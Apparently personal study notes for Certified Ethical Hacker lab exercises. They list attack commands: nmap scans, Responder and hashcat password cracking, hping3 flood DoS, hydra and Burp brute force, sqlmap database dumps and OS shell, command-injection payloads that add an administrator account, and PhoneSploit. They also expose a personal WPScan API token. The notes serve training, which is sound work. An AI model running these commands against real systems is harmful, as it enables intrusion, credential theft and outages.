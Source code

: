 
Lab1-Task1: Host discovery
•	nmap -sn -PR [IP]
o	-sn: Disable port scan
o	-PR: ARP ping scan
•	nmap -sn -PU [IP]
o	-PU: UDP ping scan
•	nmap -sn -PE [IP or IP Range]
o	-PE: ICMP ECHO ping scan
•	nmap -sn -PP [IP]
o	-PP: ICMP timestamp ping scan
•	nmap -sn -PM [IP]
o	-PM: ICMP address mask ping scan
•	nmap -sn -PS [IP]
o	-PS: TCP SYN Ping scan
•	nmap -sn -PA [IP]
o	-PA: TCP ACK Ping scan
•	nmap -sn -PO [IP]
o	-PO: IP Protocol Ping scan
Lab2-Task3: Port and Service Discovery
•	nmap -sT -v [IP]
o	-sT: TCP connect/full open scan
o	-v: Verbose output
•	nmap -sS -v [IP]
o	-sS: Stealth scan/TCP hall-open scan
•	nmap -sX -v [IP]
o	-sX: Xmax scan
•	nmap -sM -v [IP]
o	-sM: TCP Maimon scan
•	nmap -sA -v [IP]
o	-sA: ACK flag probe scan
•	nmap -sU -v [IP]
o	-sU: UDP scan
•	nmap -sI -v [IP]
o	-sI: IDLE/IPID Header scan
•	nmap -sY -v [IP]
o	-sY: SCTP INIT Scan
•	nmap -sZ -v [IP]
o	-sZ: SCTP COOKIE ECHO Scan
•	nmap -sV -v [IP]
o	-sV: Detect service versions
•	nmap -A -v [IP]
o	-A: Aggressive scan
Lab3-Task2: OS Discovery
•	nmap -A -v [IP]
o	-A: Aggressive scan
•	nmap -O -v [IP]
o	-O: OS discovery
•	nmap –script smb-os-discovery.nse [IP]
o	-–script: Specify the customized script
o	smb-os-discovery.nse: Determine the OS, computer name, domain, workgroup, and current time over the SMB protocol (Port 445 or 139)
Module 04: Enumeration
Lab2-Task1: Enumerate SNMP using snmp-check
•	nmap -sU -p 161 [IP]
•	snmp-check [IP]
Addition
•	nbtstat -a [IP] (Windows)
•	nbtstat -c
Module 06: System Hacking
Lab1-Task1: Perform Active Online Attack to Crack the System's Password using Responder
•	Linux:
o	cd
o	cd Responder
o	chmox +x ./Responder.py
o	sudo ./Responder.py -I eth0
o	passwd: ****
•	Windows
o	run
o	\CEH-Tools
•	Linux:
o	Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
o	sudo snap install john-the-ripper
o	passwd: ****
o	sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt
Lab3-Task6: Covert Channels using Covert_TCP
•	Attacker:
o	cd Desktop
o	mkdir Send
o	cd Send
o	echo "Secret"->message.txt
o	Place->Network
o	Ctrl+L
o	smb://[IP]
o	Account & Password
o	copy and paste covert_tcp.c
o	cc -o covert_tcp covert_tcp.c
•	Target:
o	tcpdump -nvvx port 8888 -I lo
o	cd Desktop
o	mkdir Receive
o	cd Receive
o	File->Ctrl+L
o	smb://[IP]
o	copy and paste covert_tcp.c
o	cc -o covert_tcp covert_tcp.c
o	./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt
o	Tcpdump captures no packets
•	Attacker
o	./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt
o	Wireshark (message string being send in individual packet)
Module 08: Sniffing
Lab2-Task1: Password Sniffing using Wireshark
•	Attacker
o	Wireshark
•	Target
o	www.moviescope.com
o	Login
•	Attacker
o	Stop capture
o	File-&gt;Save as
o	Filter: http.request.method==POST
o	RDP log in Target
o	service
o	start Remote Packet Capture Protocol v.0 (experimental)
o	Log off Target
o	Wireshark-&gt;Capture options-&gt;Manage Interface-&gt;Remote Interfaces
o	Add a remote host and its interface
o	Fill info
•	Target
o	Log in
o	Browse website and log in
•	Attacker
o	Get packets
Module 10: Denial-of-Service
Lab1-Task2: Perform a DoS Attack on a Target Host using hping3
•	Target:
o	Wireshark-&gt;Ethernet
•	Attacker
o	hping3 -S [Target IP] -a [Spoofable IP] -p 22 -flood
	-S: Set the SYN flag
	-a: Spoof the IP address
	-p: Specify the destination port
	--flood: Send a huge number of packets
•	Target
o	Check wireshark
•	Attacker (Perform PoD)
o	hping3 -d 65538 -S -p 21 –flood [Target IP]
	-d: Specify data size
	-S: Set the SYN flag
•	Attacker (Perform UDP application layer flood attack)
o	nmap -p 139 10.10.10.19 (check service)
o	hping3 -2 -p 139 –flood [IP]
	-2: Specify UDP mode
•	Other UDP-based applications and their ports
o	CharGen UDP Port 19
o	SNMPv2 UDP Port 161
o	QOTD UDP Port 17
o	RPC UDP Port 135
o	SSDP UDP Port 1900
o	CLDAP UDP Port 389
o	TFTP UDP Port 69
o	NetBIOS UDP Port 137,138,139
o	NTP UDP Port 123
o	Quake Network Protocol UDP Port 26000
o	VoIP UDP Port 5060
Module 13: Hacking Web Servers
Lab2-Task1: Crack FTP Credentials using a Dictionary Attack
•	nmap -p 21 [IP]
•	hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10
Module 14: Hacking Web Applications
Lab2-Task1: Perform a Brute-force Attack using Burp Suite
•	Set proxy for browser: 127.0.0.1:8080
•	Burpsuite
•	Type random credentials
•	capture the request, right click-&gt;send to Intrucder
•	Intruder-&gt;Positions
•	Clear $
•	Attack type: Cluster bomb
•	select account and password value, Add $
•	Payloads: Load wordlist file for set 1 and set 2
•	start attack
•	filter status==302
•	open the raw, get the credentials
•	recover proxy settings
Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications
•	Log in a website, change the parameter value (id )in the URL
•	Conduct a XSS attack: Submit script codes via text area
Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit
•	wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url http://10.10.10.16:8080/CEH --plugins-detection aggressive --enumerate u
o	--enumerate u: Specify the enumeration of users
o	API Token: Register at https://wpscan.com/register
o	Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads
•	service postgresql start
•	msfconsole
•	use auxiliary/scanner/http/wordpress_login_enum
•	show options
•	set PASS_FILE password.txt
•	set RHOST 10.10.10.16
•	set RPORT 8080
•	set TARGETURI http://10.10.10.16:8080/CEH
•	set USERNAME admin
•	run
•	Find the credential
Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)
•	If found command injection vulnerability in an input textfield
•	| hostname
•	| whoami
•	| tasklist| Taskkill /PID /F
o	/PID: Process ID value od the process
o	/F: Forcefully terminate the process
•	| dir C:\
•	| net user
•	| net user user001 /Add
•	| net user user001
•	| net localgroup Administrators user001 /Add
•	Use created account user001 to log in remotely
Module 15: SQL Injection
Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
•	Login a website
•	Inspect element
•	Dev tools-&gt;Console: document.cookie
•	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" –dbs
o	-u: Specify the target URL
o	--cookie: Specify the HTTP cookie header value
o	--dbs: Enumerate DBMS databases
•	Get a list of databases
•	Select a database to extract its tables
•	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –tables
o	-D: Specify the DBMS database to enumerate
o	--tables: Enumerate DBMS database tables
•	Get a list of tables
•	Select a column
•	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –T User_Login --dump
•	Get table data of this column
•	sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --os-shell
•	Get the OS Shell
•	TASKLIST
Module 17: Hacking Mobile Platforms
Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit
•	cd Phonesploit
•	python3 -m pip install colorama
•	python3 phonesploit.py
•	3
•	10.10.10.14
•	4
•	pwd
•	cd sdcard
•	cd Download
Module 20: Cryptography
Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator
•	Nothing special
Lab4-Task1: Perform Disk Encryption using VeraCrypt
•	Click VeraCrypt
•	Create Volumn
•	Create an encrypted file container
•	Specify a path and file name
•	Set password
•	Select NAT
•	Move the mouse randomly for some seconds, and click Format
•	Exit
•	Select a drive, select file, open, mount
•	Input password
•	Dismount
•	Exit
Lab4-Task 2: Perform Disk Encryption using BitLocker Drive Encryption
Manage BitLocker/ New volume/Turn on BitLocker/ check Use a password to unlock the drive /input password/
Module Appendix: Covered Tools
•	Nmap
o	Multiple Labs
•	Hydra
o	Module 13: Lab2-Task1
•	Sqlmap
o	Module 15: Lab1-Task2
•	WPScan
o	Module 14: Lab2-Task5
o	wpscan –-url http://10.10.10.10 -t 50 -U admin -P rockyou.txt
•	Nikto
o	https://zhuanlan.zhihu.com/p/124246499
•	John
o	Module 06: Lab1-Task1
•	Hashcat
o	Crack MD5 passwords with a wordlist:
o	hashcat hash.txt -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
o	Crack MD5 passwords in a certain format:
o	hashcat -m 0 -a 3 ./hash.txt 'SKY-HQNT-?d?d?d?d'
o	https://xz.aliyun.com/t/4008
o	https://tools.kali.org/password-attacks/hashcat
•	Metasploit
o	Module 14: Lab2-Task5
•	Responder LLMNR
o	Module 06: Lab1-Task1
•	Wireshark or Tcpdump
o	Multiple Labs
•	Steghide
o	Hide
o	steghide embed -cf [img file] -ef [file to be hide]
o	steghide embed -cf 1.jpg -ef 1.txt
o	Enter password or skip
o	Extract
o	steghide info 1.jpg
o	steghide extract -sf 1.jpg
o	Enter password if it does exist
•	OpenStego
o	https://www.openstego.com/
•	QuickStego
o	Module 06: Lab0-Task1
•	Dirb (Web content scanner)
o	https://medium.com/tech-zoom/dirb-a-web-content-scanner-bc9cba624c86
o	https://blog.csdn.net/weixin_44912169/article/details/105655195
•	Searchsploit (Exploit-DB)
o	https://www.hackingarticles.in/comprehensive-guide-on-searchsploit/
•	Crunch (wordlist generator)
o	https://www.cnblogs.com/wpjamer/p/9913380.html
•	Cewl (URL spider)
o	https://www.freebuf.com/articles/network/190128.html
•	Veracrypt
o	Module 20: Lab4-Task1
•	Hashcalc
o	Module 20: Lab1-Task1 (Nothing special)
•	Rainbow Crack
o	Module 06: Lab0-Task0
•	Windows SMB
o	smbclient -L [IP]
o	smbclient \ip\sharename
o	nmap -p 445 -sV –script smb-enum-services [IP]
•	**Run Nmap at the beginning **
o	nmap -sn -PR 192.168.1.1/24 -oN ip.txt
o	nmap -A -T4 -vv -iL ip.txt -oN nmap.txt
o	nmap -sU -sV -A -T4 -v -oN udp.txt
•	Snow
•	./snow -C -p "magic" output.txt
•	snow -C -m "Secret Text Goes Here!" -p "magic" readme.txt readme2.txt • -m → Set your message • -p → Set your password
•	Rainbowcrack
o	Use Winrtgen to generate a rainbow table
o	Launch RainbowCrack
o	File->Load NTLM Hashes from PWDUMP File
o	Rainbow Table->Search Rainbow Table
o	Use the generated rainbow table
o	RainbowCrack automatically starts to crack the hashes QuickStego
o	Launch QuickStego
o	Open Image, and select target .jpg file
o	Open Text, and select a txt file
o	Hide text, save image file
o	Re-launch, Open Image
o	Select stego file
o	Hidden text shows up

